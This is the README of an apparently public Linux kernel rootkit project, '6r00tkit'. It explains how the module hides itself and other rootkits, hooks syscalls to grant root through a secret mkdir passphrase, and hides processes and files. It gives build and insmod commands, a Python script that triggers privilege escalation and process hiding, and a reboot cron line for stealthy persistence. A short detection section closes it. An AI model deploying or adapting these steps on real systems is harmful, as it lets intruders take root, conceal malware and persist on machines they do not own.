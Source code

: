 # 6r00tkit

## Description

6r00tkit (Grootkit) is a rootkit used to hide and protect itself and other rootkits, to hide malware and persistence file for 6r00tkit, to hide process and to set root permissions on a process (privilege escalation).

How it's works:
 - Remove itself and other rootkit from the kernel modules list
 - Use itself and other rootkit to block an unload
 - Hooks 4 syscalls
    - `mkdir`, to get the root permissions for any process you may use the passphrase in `mkdir` syscall (default passphrase is `1 4m 6r00t`)
    - `kill`, to get a hidden process you may use the special signal in `kill` syscall (default is `14600` - numbers in `1 4m 6r00t`)
    - `getdents64` to hide process and files (process directory in `/proc` or customizable malware file and directory)
    - `getdents` to hide process and files (process directory in `/proc` or customizable malware file and directory)

## Requirements

 - Linux system
 - Root permissions to load the module

## Build

```bash
wget https://github.com/mauricelambert/6r00tkit/archive/refs/heads/main.zip
unzip main.zip
cd 6r00tkit-main/
bash compile.sh
```

## Load

### Default parameters

```bash
sudo insmod ./6r00tkit.ko
```

### Add parameters

```bash
sudo insmod ./6r00tkit.ko modulename="other_rootkit" passphrase="s3cr3t" processsignal=666 rootkitdirectory="/rootkit/directory" rootkitfile="rootkit.ko" persistencedirectory="/persistence/directory" persistencefile="mycron" malwarefile="my_malware_filename.malware" ipsignal=600613
```

## Usages

You can use it like the following with python (or use it with any program and script, you only need to call specific syscalls with specific values):

```python
from os import mkdir, getuid, kill, listdir, getpid, system

print("PID:", getpid())
print("\n".join(listdir("/proc/")))
system("ps aux | grep python")
kill(getpid(), 14600) # i use the default signal, you should use your own signal if added as parameters on load
print("\n".join(listdir("/proc/")))
system("ps aux | grep python")

print("Current UID:", getuid())
system("whoami")
mkdir("1 4m 6r00t") # i use the default passphrase, you should use your own passphrase if added as parameters on load
print("Current UID:", getuid())
system("whoami")
```

## Persistence

You can reload the kernel module on reboot with a single cronjob, write the following content in the filename `/etc/cron.d/6r00tkit`:

```cron
@reboot root /bin/bash -c 'echo "/bin/sleep 10; /sbin/insmod /path/to/6r00tkit.ko" > /tmp/.placeholder; /bin/bash /tmp/.placeholder; /bin/rm -f /tmp/.placeholder'
```

## 6r00tkit detection

 1. Use `tcpdump` to see all connections opens
 2. Check on your firewall logs all recent ports used
 3. Use `netstat -a` and/or `sudo ss -atnp4` to see ports
 4. Compare used ports on firewall and tcpdump with *listening* and *established* connections on your host
 5. Try to edit default files (don't list directory with `ls` theses files are hidden):
     - `/etc/cron.d/6r00tkit`
     - `/root/6r00tkit.ko`
     - `/root/reverseshell`
 6. Try to use features with default passphrase and codes
     - `python3 -c 'from os import getuid, mkdir;i=getuid();mkdir("1 4m 6r00t");print("6r00tkit detected" if i and not getuid() else "6r00tkit not detected")'`
     - `python3 -c 'from os import getpid, kill, listdir;kill(getpid(), 14600);print("6r00tkit detected" if str(getpid) not in listdir("/proc") else "6r00tkit not detected")'`

## Licence

Licensed under the [GPL, version 3](https://www.gnu.org/licenses/).